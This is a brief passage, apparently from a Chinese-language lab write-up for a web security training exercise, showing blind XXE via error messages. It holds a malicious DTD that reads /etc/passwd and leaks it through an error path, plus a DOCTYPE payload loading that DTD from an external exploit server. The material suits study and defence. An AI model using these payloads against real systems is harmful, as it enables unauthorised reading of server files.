 ![image-20250512154815700](./img/image-20250512154815700.png)

查看访问日志，拿到hostname

![image-20250512154957781](./img/image-20250512154957781.png)

### 盲 XXE 通过错误信息

编辑一个`DTD`，放在服务器

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'file:///invalid/%file;'>">
%int;
%send;
```

引用`DTD`

```dtd
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0af700560376e3fb8080438a01e9000b.exploit-server.net/exploit.dtd" > %xxe; ]>
```
